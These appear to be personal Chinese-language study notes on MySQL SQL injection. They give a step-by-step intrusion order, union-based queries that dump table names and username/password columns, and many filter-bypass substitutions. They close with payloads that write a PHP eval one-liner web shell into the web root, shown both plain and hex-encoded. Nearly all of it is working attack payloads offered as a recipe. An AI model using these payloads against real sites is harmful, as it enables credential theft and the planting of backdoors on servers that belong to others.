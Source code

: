 #SQL注入 #

#### 2018/9/11 10:48:55   ####
----------

1. ## 入侵顺序 ##
	1.  查看所有信息 
	2.  查看字段数
	3.  查看数据库名，版本号，用户，所有表
	4.  上传一句话木马和下载数据（须知道webshell路径）

1. ## "-- " ##
	杠杠空格，是三个字符，实现注释后面代码，空格不能忘

1. ## ' 和 1 ##
	' 单引号和 1 实现检测字符或数字型参数

1. ## and ##
	and 1=1 和and 1=2 为了 测试后面能否接语句（有无注入点）

1. ## or ##
	or 1=1 可实现显示所有select信息

1. ## order by ##
	or 1=1 可实现显示所有select信息

	当order by 被过滤后就可以使用into 变量来绕过，后面变量个数 

    	select * from yz limit 1,1 into @a,@b,@c;

1. ## union ##
	false表达式+union select

    	id=-1 union select 1,2,3 
	看出现1,2,3中的那些数据，便知道那几个位置的数据可以显示出来，然后查别的数据

	union可用1||代替

1. ## 查看数据库 ##
	union select 1,version(),database()

1. ## 查选表名，列名 ##
	`union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

	`id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'`

1. ## 查看数据库内容 ##
	id=-1 union select 1,group_concat(username,password),3 from users

1. ## information_schema ##
    	select group_concat(schema_name) from information_schema.schemata
    	select schema_name from information_schema.schemata limit 0,1  #查询数据库
    	select table_name from information_schema.tables where table_schema=database() limit 0,1;  #查询表
    	select column_name from information_schema.columns where table_name='users' limit 0,1;  #查询列


1. ## 绕过 ##

	*From [cnblogs详细绕过技巧，以下为部分需求整合资料](https://www.cnblogs.com/Vinson404/p/7253255.html "绕过技巧")*

	*From [csdn详细绕过技巧，以下为部分需求整合资料](https://blog.csdn.net/qq_31481187/article/details/59727015 "绕过技巧")*

	#### * 注释符 ####
    	select 1,2,3 from yz where '1'/1=(1=1)/'1'='1' 
	(1=1)中就有了判断位为下面的注入打下基础

	#### * or and xor not ####
	and=&&  or=||   xor=|   not=!

	#### * 等于号 ####
	使用like 、rlike 、regexp 或者 使用< 或者 >

	#### * 空格 ####
	两个空格代替一个空格，用Tab代替空格，%a0=空格：

    	%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/


	括号代替

    	select(user())from dual where(1=1)and(2=2)

	#### * 引号 ####
	16位hex编码

	`select column_name  from information_schema.tables where table_name="users"`


	改为


	`select column_name  from information_schema.tables where table_name=0x7573657273``

	#### * 逗号 ####
	在***使用盲注***的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

    	select substr(database() from 1 for 1);
    	select mid(database() from 1 for 1);

	***使用join***：

	`	union select 1,2`     


	`union select * from (select 1)a join (select 2)b`

	***使用like***：

	`select ascii(mid(user(),1,1))=80`

	`select user() like 'r%'`

	***对于limit***可以使用offset来绕过：

	`select * from news limit 0,1`

	`select * from news limit 1 offset 0`


1. ## 木马 ##
	**注意**：这里使用DUMPFILE文件写入，是因为outfile后面不能接0x开头或者char转换以后的路径，只能是单引号路径。这个问题在php注入中更加麻烦，因为会自动将单引号转义成\'；load_file，后面的路径可以是单引号、0x、char转换的字符，但是路径中的斜杠是/而不是\。故选用dumpfile文件写入木马
	
	**一句话木马**：  
	<?php @eval($_POST[zhangshu])?>  
	hex加码  
	3c3f70687020406576616c28245f504f53545b7a68616e677368755d293f3e

	dumpfile等文件写入语法  
	`select 'a\naa\raaaa' into dumpfile '/tmp/test.txt'`

	故可以通过以下方法上传一句话木马  
	`1；Create TABLE a (cmd text NOT NULL); Insert INTO a (cmd) VALUES('<?php eval($_POST[cmd])?>'); select cmd from a into outfile 'x:/phpMyAdmin/libraries/d.php'; Drop TABLE IF EXISTS a;` 
	或
	`-1' UNION ALL SELECT 0x3c3f70687020406576616c28245f504f53545b7a68616e677368755d293f3e,NULL INTO DUMPFILE '/var/www/html/zhangshu/t2.php'-- `

	<font color=#DC143C size=4 face="黑体">**此处会报错(仍未解决)：**</font>  
	`The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`
	即`--secure-file-priv`问题  
	需通过sql终端输入`show variables like '%secure%';`处理  
	**若无法获得终端则无法上传木马**  
	若可以查到--secure-file-priv值，此值为可以上传的文件路径，若此路径不为webapps执行目录，需修改my.ini配置文件中secure设置  

	通常--secure-file-priv默认为/var/lib/mysql-files/

	注：可通过以下方法查看文件内容  
	`-6' UNION ALL SELECT NULL,load_file('/var/lib/mysql-files/t3.php') -- `
	
	注：linux通常web路径为：/var/www/html/index.html



1. ## 学习点3 ##
	内容湿哒哒大多数



